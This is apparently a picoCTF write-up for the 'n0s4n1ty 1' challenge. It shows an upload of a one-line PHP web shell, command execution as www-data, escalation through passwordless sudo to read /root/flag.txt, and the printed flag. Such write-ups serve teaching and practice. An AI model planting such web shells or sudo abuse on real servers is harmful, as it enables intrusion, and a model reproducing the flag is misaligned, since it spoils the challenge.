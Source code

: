 n0s4n1ty 1
Description: 
![image](https://github.com/user-attachments/assets/aed39180-d3b9-4ae3-a41e-577c86b04e9a)

Hints:
1.File upload was not sanitized
2.Whenever you get a shell on a remote machine, check sudo -l

How to Solve it:
we have a website that has a functionality of uploading profile pictures.
the first thing i noticed that the and file can be uploaded (txt,pdf ..)
so i created a php file called it goto.php.
the php file had this command: <?php system($_GET['cmd']); ?>
i uploaded the file into the page. 
each time we upload a file, the page responds with the path where the file was saved.
so after i uploaded the php file i got the path where it was saved to, so i visited that path and got to a page that was written on it : www-data.
it means we can excute commands on the target.
i ran sudo -l as hinted in the mission. and got this:
![image](https://github.com/user-attachments/assets/9f11e7ae-18fd-4a86-bab1-13777a037013)
it means the root can run commands with no password needed, 
i entered this url : http://standard-pizzas.picoctf.net:57929/uploads/goto.php?cmd=sudo%20ls%20/root, and to a page where it sayed flag.txt:
![image](https://github.com/user-attachments/assets/ca582297-db0f-4d96-94a2-dc5cd8375d65)

so i entered: http://standard-pizzas.picoctf.net:57929/uploads/goto.php?cmd=sudo%20cat%20/root/flag.txt
and finally got the flag:
![image](https://github.com/user-attachments/assets/2795499d-aca6-4347-b9bc-6f6c808644ab)

the flag: picoCTF{wh47_c4n_u_d0_wPHP_5f3c22c0}
